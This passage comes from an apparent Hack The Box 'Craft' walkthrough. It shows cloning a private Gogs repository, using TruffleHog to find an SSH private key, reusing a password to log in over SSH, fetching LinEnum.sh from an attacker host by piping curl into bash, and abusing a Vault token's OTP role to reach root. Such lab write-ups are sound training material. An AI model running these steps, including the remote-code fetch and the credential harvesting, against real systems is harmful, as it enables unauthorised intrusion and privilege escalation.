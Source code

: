 The credentials of _ebachman_ don't work but the credentials of _gilfoyle_ work on **Gogs**.
This user has a private repository on his account called _craft-infra_.

## Checking Private Repository

This repository can also be cloned onto our local box to analyze it further:
```markdown
git -c http.sslVerify=false clone https://gogs.craft.htb/gilfoyle/craft-infra
```

Running **TruffleHog** over the repository:
```markdown
cd craft-infra

trufflehog .
```

It found a public and a private SSH key in the hidden folder _./ssh/id_rsa_.
This SSH key works and asks for a password and fortunately for us, _gilfoyle_ used the same password for SSH as in the database in **Gogs**:
```markdown
ssh -i id_rsa gilfoyle@10.10.10.110
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```markdown
curl 10.10.14.19/LinEnum.sh | bash
```

In the home directory of _/home/gilfoyle_ is a hidden file called _.vault-token_, which is an authentication file for [Vault by HashiCorp](https://www.vaultproject.io/docs/concepts/tokens).
It can also be used as a [Vault Tokens for SSH](https://www.vaultproject.io/docs/commands/ssh).

The file _/vault/secrets.sh_ in the repository _craft-infra_ shows that the default user for this token is _root_:
```markdown
vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

Using the Vault token to authenticate via root:
```markdown
vault ssh -mode=otp -role=root_otp root@127.0.0.1
```

This generates an OTP that has to be copied into the password field and then it logs us in as root!
